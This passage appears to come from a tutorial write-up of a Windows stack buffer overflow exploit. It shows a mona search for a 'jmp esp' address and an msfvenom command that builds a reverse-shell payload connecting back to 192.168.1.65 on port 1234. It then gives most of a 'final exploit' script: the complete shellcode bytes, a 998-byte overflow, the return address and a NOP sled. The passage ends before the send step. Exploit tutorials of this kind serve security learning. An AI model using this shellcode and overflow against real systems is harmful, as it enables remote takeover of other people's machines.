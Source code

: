 But what if we can set EIP to point to a location which has an instruction that can force EIP to point to ESP, and of course that instruction’s address can not start with a null byte... To find such instruction I use mona again to find candidates
`!mona jmp -r ESP`{:style="color:orange"}

![11](/assets/images/Crashed/11.png){: width="800px" }

I get many addresses that contains the instruction I desire and none of them starts with a Null byte So, I’ll pick the highlighted one to use for my exploit We can now control EIP and can make it point to the top of the top of the stack (ESP) so the only thing that is missing is to put a shellcode that’ll get executed and connect back to us. For this simple example I use msfvenome to generate the shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.65 LPORT=1234 --platform windows -a x86 -b '\x00\x0a' -f c
```

Now that shellcode will force the server to connect back to my parrot machine on port 1234

## The Final Exploit

```py
import socket, sys
from time import sleep

shellcode =("\xdb\xc8\xbd\xb5\xd8\xa7\xd2\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x52\x31\x6a\x17\x83\xc2\x04\x03\xdf\xcb\x45\x27\xe3\x04\x0b"
"\xc8\x1b\xd5\x6c\x40\xfe\xe4\xac\x36\x8b\x57\x1d\x3c\xd9\x5b"
"\xd6\x10\xc9\xe8\x9a\xbc\xfe\x59\x10\x9b\x31\x59\x09\xdf\x50"
"\xd9\x50\x0c\xb2\xe0\x9a\x41\xb3\x25\xc6\xa8\xe1\xfe\x8c\x1f"
"\x15\x8a\xd9\xa3\x9e\xc0\xcc\xa3\x43\x90\xef\x82\xd2\xaa\xa9"
"\x04\xd5\x7f\xc2\x0c\xcd\x9c\xef\xc7\x66\x56\x9b\xd9\xae\xa6"
"\x64\x75\x8f\x06\x97\x87\xc8\xa1\x48\xf2\x20\xd2\xf5\x05\xf7"
"\xa8\x21\x83\xe3\x0b\xa1\x33\xcf\xaa\x66\xa5\x84\xa1\xc3\xa1"
"\xc2\xa5\xd2\x66\x79\xd1\x5f\x89\xad\x53\x1b\xae\x69\x3f\xff"
"\xcf\x28\xe5\xae\xf0\x2a\x46\x0e\x55\x21\x6b\x5b\xe4\x68\xe4"
"\xa8\xc5\x92\xf4\xa6\x5e\xe1\xc6\x69\xf5\x6d\x6b\xe1\xd3\x6a"
"\x8c\xd8\xa4\xe4\x73\xe3\xd4\x2d\xb0\xb7\x84\x45\x11\xb8\x4e"
"\x95\x9e\x6d\xc0\xc5\x30\xde\xa1\xb5\xf0\x8e\x49\xdf\xfe\xf1"
"\x6a\xe0\xd4\x99\x01\x1b\xbf\x09\xcd\x81\xc3\x3a\xec\xc5\x3f"
"\x69\x79\x23\x55\x9d\x2c\xfc\xc2\x04\x75\x76\x72\xc8\xa3\xf3"
"\xb4\x42\x40\x04\x7a\xa3\x2d\x16\xeb\x43\x78\x44\xba\x5c\x56"
"\xe0\x20\xce\x3d\xf0\x2f\xf3\xe9\xa7\x78\xc5\xe3\x2d\x95\x7c"
"\x5a\x53\x64\x18\xa5\xd7\xb3\xd9\x28\xd6\x36\x65\x0f\xc8\x8e"
"\x66\x0b\xbc\x5e\x31\xc5\x6a\x19\xeb\xa7\xc4\xf3\x40\x6e\x80"
"\x82\xaa\xb1\xd6\x8a\xe6\x47\x36\x3a\x5f\x1e\x49\xf3\x37\x96"
"\x32\xe9\xa7\x59\xe9\xa9\xd8\x13\xb3\x98\x70\xfa\x26\x99\x1c"
"\xfd\x9d\xde\x18\x7e\x17\x9f\xde\x9e\x52\x9a\x9b\x18\x8f\xd6"
"\xb4\xcc\xaf\x45\xb4\xc4")

buf = "A"*998
buf += "\xba\x12\x50\x62" # 0x625012ba <-- jmp esp
buf += "\x90"*48 # added a NOP slide of possible stack misalignment
```